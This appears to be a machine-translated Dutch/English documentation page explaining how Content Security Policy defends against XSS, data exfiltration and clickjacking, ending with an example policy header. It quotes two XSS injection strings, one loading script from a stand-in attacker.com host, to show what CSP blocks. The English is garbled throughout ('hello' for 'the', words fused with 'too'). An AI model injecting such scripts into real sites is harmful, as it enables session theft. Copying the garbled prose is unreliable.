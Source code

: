 | <span data-ttu-id="ad467-153">**Stappen**</span><span class="sxs-lookup"><span data-stu-id="ad467-153">**Steps**</span></span> | <p><span data-ttu-id="ad467-154">Inhoud Security-beleid (CSP) is een defense-in-depth beveiligingsmechanisme, een W3C standard, waarmee de toepassing eigenaars toohave webbesturingselement op Hallo inhoud die is ingesloten in hun site.</span><span class="sxs-lookup"><span data-stu-id="ad467-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="ad467-155">CSP wordt toegevoegd als een HTTP-antwoordheader op Hallo-webserver en door browsers aan clientzijde hello wordt afgedwongen.</span><span class="sxs-lookup"><span data-stu-id="ad467-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="ad467-156">Er is een beleid op basis van een lijst met geaccepteerde - een website kunt een set van vertrouwde domeinen uit welke actieve inhoud declareren, zoals JavaScript, kan worden geladen.</span><span class="sxs-lookup"><span data-stu-id="ad467-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="ad467-157">CSP biedt Hallo volgende beveiligingsvoordelen:</span><span class="sxs-lookup"><span data-stu-id="ad467-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="ad467-158">**Bescherming tegen XSS:** als een pagina kwetsbaar tooXSS is, kunt u deze in een aanvaller kan misbruiken op 2 manieren:</span><span class="sxs-lookup"><span data-stu-id="ad467-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="ad467-159">Injecteren `<script>malicious code</script>`.</span><span class="sxs-lookup"><span data-stu-id="ad467-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="ad467-160">Hiervoor werkt niet vanwege tooCSP van Base beperking-1</span><span class="sxs-lookup"><span data-stu-id="ad467-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="ad467-161">Injecteren `<script src=”http://attacker.com/maliciousCode.js”/>`.</span><span class="sxs-lookup"><span data-stu-id="ad467-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="ad467-162">Hiervoor werkt niet omdat Hallo aanvaller beheerd domein niet voorkomt in goedgekeurde lijst van de CSP-domeinen</span><span class="sxs-lookup"><span data-stu-id="ad467-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="ad467-163">**Controle over de gegevens exfiltration:** als schadelijke inhoud op een webpagina tooconnect tooan externe website en de gegevens stelen probeert, Hallo verbinding wordt verbroken door de CSP.</span><span class="sxs-lookup"><span data-stu-id="ad467-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="ad467-164">Dit is omdat het doeldomein Hallo niet voorkomt in goedgekeurde lijst van de CSP</span><span class="sxs-lookup"><span data-stu-id="ad467-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="ad467-165">**Beveiliging tegen steunpunten voor van Klik:** steunpunten voor van Klik is een techniek aanval met die een adversary kunt frame een legitieme website en gebruikers tooclick afdwingen op UI-elementen.</span><span class="sxs-lookup"><span data-stu-id="ad467-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="ad467-166">Beveiliging tegen steunpunten voor van Klik wordt momenteel bereikt door een antwoord-header X-Frame-opties configureren.</span><span class="sxs-lookup"><span data-stu-id="ad467-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="ad467-167">Niet alle browsers respecteren deze header en een normale manier toodefend tegen steunpunten voor van Klik forward CSP gaan worden</span><span class="sxs-lookup"><span data-stu-id="ad467-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="ad467-168">**Realtime-aanval reporting:** als er een ingebracht bij een aanval op een website CSP is ingeschakeld, browsers tooan meldingseindpunt geconfigureerd op de webserver Hallo automatisch geactiveerd.</span><span class="sxs-lookup"><span data-stu-id="ad467-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="ad467-169">Op deze manier CSP fungeert als een realtime waarschuwingssysteem.</span><span class="sxs-lookup"><span data-stu-id="ad467-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="ad467-170">Voorbeeld</span><span class="sxs-lookup"><span data-stu-id="ad467-170">Example</span></span>
<span data-ttu-id="ad467-171">Van voorbeeldbeleid:</span><span class="sxs-lookup"><span data-stu-id="ad467-171">Example policy:</span></span> 
```C#
Content-Security-Policy: default-src 'self'; script-src 'self' www.google-analytics.com 
```